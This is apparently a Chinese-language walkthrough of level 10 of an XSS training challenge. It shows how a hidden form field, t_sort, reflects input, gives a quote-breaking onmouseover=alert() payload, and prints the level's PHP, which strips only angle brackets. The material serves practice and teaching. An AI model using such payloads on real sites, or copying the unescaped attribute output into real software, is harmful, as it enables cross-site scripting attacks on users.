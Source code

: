 ## level 10

在url处测试我们的经典语句。不出意料，果然没弹窗。但有意外发现，有隐藏表单。

![UjWJ4P.png](https://s1.ax1x.com/2020/07/24/UjWJ4P.png)

那么我们构造参数传进去，看看会发生生么情况。

`?keyword=<script>alert()</script>&t_link=111&t_history=222&t_sort=333`,发现最后那个地方竟然有回显，

![UjWjDH.png](https://s1.ax1x.com/2020/07/24/UjWjDH.png)

此处或许想到了javascript伪协议，`javascript:alert()`,但此处却不能使用，应为并不是任何标签的任何属性都能触发这个为协议。

我们测试还发现这里并没有进行特殊处理，所哟构造闭合标签，进行xss。

`?keyword=<script>alert()</script>&t_link=111&t_history=222&t_sort=" onmouseover="alert()`

删掉这里的隐藏属性，然后将鼠标滑倒出现的框的位置，弹窗成功。

![UjfRit.png](https://s1.ax1x.com/2020/07/24/UjfRit.png)

分析源码：

```
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

变量`str33`经过替换尖括号意外没有任何处理。

